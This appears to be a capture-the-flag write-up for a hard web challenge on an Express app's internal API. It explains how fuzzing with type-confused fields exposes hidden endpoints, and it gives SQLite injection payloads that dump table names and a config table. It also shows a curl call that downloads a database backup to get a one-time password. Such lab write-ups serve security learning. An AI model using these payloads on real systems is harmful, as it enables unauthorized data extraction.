









<div style="background: #161b22; border: 1px solid #30363d; border-left: 8px solid #238636; border-radius: 10px; padding: 20px; margin: 20px 0; font-family: monospace;">
<h2><b>weekly challenge: 08/02/26 - 15/02/26</h2>
    <ul style="list-style: none; padding: 0; margin: 0; font-size: 1.2em; color: #8b949e;">
        <li>🔴 <b>difficulty:</b> <span style="color: #f90909;">hard</span></li>
        <li>⚡ <b>xp earned:</b> <span style="color: #f90909;">100</span></li>
        <li>📂 <b>categories:</b> <code>api</code>
        <li>🛠️ <b>vulns:</b> <code>type confusion, improper error handling, sqlite injection</code>
    </ul>
</div>

## 0x00: recon
- as always, we have a express web application and we start with those credentials: `operator:operator`
    
- all my web applications approaches basically consists in act like a normal user and then see the all the requests made by these actions. there is 3 main endpoints: `/apps/mail`, `/apps/nexus` and `/dev`. on the first two, all requests are parsed from what apppears to be an internal api and on the last endpoint, a token that resets every minute is required. ok, lets analyze the internal api.
    
- as we can see, there exists 3 fields on this json: `id`, `endpoint` and `data`. the endpoints used by the application are: `/api/notes/list`, `/api/notes/get` (recieve an `id` on `data` field), `/api/mail/inbox` and `/api/mail/get` (recieve an `id` on `data` field)

## 0x01: fuzzing
- after understanding how the requests are made, we can tamper them to trigger errors and make the application show us the path. to start, we can send the `POST` request with all fields `null`, all fields `true` or `false`, without `Content-Type`, invalid json's, some fields `true` or `false`, etc. (use your creativity).
- when we send the request with `"id":true`, we recieve an interesting error:
    
- `"Rail endpoint not found"`. what that means? making a request to /api/rails, the same error persists, so, we can fuzz endpoints. after discoverr /api/rails/create, the application tell us the fields that they want and how they want.
    
- after providing the required fileds, we can try to tamper them and see how the application reacts. putting a simple quote on `message` field, we trigger a `500 Internal Server Error`, what probably indicates a sql injection.
    
- `"message":"' || (SELECT group_concat(name) FROM sqlite_master WHERE type='table') || '"`
    
- `"' || (SELECT group_concat(key || ':' || value) FROM config) || '"`
    
- after get the credentials, we need to find where to put them. with another fuzzing, we discover the `/db` endpoint, that allow us to generate database backups
    
- with another fuzzing, we can guess two valid databases: railDb and `portalDb`. at `portalDb`, we can retrieve the otp password for `/dev` and get the flag. downloading the database:
    ```bash
    ➜  ~ curl -X POST https://lab-1770738092145-8zzgln.labs-app.bugforge.io/db/backup -d '{"database":"portalDb"}' -H "Cookie: connect.sid=s%3ARTl8Kk45vICrVx7t8ZUKOJnqZ13b1Jcp.2NQiVBoHxUM1kMbAlF%2Bye%2BFsz1i2WBArYfcKLtjibw0" -H "Content-Type: application/json" -o bkp
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100 20503  100 20480  100    23  18471     20  0:00:01  0:00:01 --:--:-- 18504
    ➜  ~ sqlite3 bkp                                                                                                        SQLite version 3.46.1 2024-08-13 09:16:08
    Enter ".help" for usage hints.
    sqlite> .tables
    config  users
    sqlite> select * from config;
    dev_otp|791006|1770743075
    ```
- getting the flag!
    